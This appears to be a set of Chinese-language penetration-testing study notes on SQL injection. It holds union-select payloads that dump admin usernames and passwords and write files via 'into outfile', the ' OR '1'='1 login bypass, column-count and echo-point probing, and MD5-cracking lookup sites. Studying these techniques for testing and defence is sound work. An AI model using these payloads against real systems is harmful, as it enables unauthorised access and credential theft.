 [TOC]



渗透测试步骤

1. 信息收集：whois信息收集，端口扫描，寻找旁站，目录扫描，指纹识别，内容敏感信息泄露
2. 



---

# SQL Injection

- 通过构造**SQL语句**实现对**数据库**的操作
- 条件：1. 参数用户可控 2. 构造的参数带入数据库查询

```
?id=1' union select 1,2,'xxx injection content' into outfile 'xxx.html'%23
and 1=2 union select 1,concat(username,password) from admin
```



> i.zkaq.org

## SQL手动注入

sql手注一般流程

1. 判断注入点
2. 判断字段数
3. 判断回显点
4. 查询相关内容

demo

某个网站的登录验证的SQL查询代码为

```
strSQL = "SELECT * FROM users WHERE (name = '" + userName + "') and (pw = '"+ passWord +"');"
```

恶意填入

```
userName = "1' OR '1'='1";
passWord = "1' OR '1'='1";
```

时，将导致原本的SQL字符串被填为

```
strSQL = "SELECT * FROM users WHERE (name = '1' OR '1'='1') and (pw = '1' OR '1'='1');"
```

也就是实际上运行的SQL命令会变成下面这样的

```
strSQL = "SELECT * FROM users;"
```

因此达到无账号密码，亦可登录网站。所以SQL注入被俗称为黑客的填空游戏。



判断字段数

```
order by 5 // 若正常
order by 6 // 若不正常
那么网页有5个字段
```



判断回显点

```
union select 1,2,3,4,5 from admin //页面上显示了1 2 3 4 5的地方即回显点
union select 1,username,password,4,5 from admin //在有回显的地方，输入字段名(username,password为猜测出来的)
```





```
//md5查表
www.cmd5.com
md5jiami.51240.com
```









































